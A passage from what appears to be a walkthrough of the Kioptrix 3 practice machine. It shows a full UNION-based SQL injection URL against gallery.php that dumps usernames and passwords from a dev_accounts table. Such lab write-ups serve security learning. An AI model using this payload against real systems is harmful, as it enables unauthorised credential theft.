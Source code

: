    ![no_pw_dev_acc](./.images/dev_accounts_no_pw.png)

   We did obtain the data from the database but can't see any entry for "password" column. So, we can `concat` the contents of "username" and "password"columns and print the same in a single column as:

   ```
   http://kioptrix3.com/gallery/gallery.php?id=null%20UNION%20SELECT%201,%20id,%20concat(username,%20%22*%22,%20password)%20,4,%205,%206%20%20FROM%20dev_accounts--
   ```

   ![dev_accounts_dump](./.images/dev_accounts_dump.png)
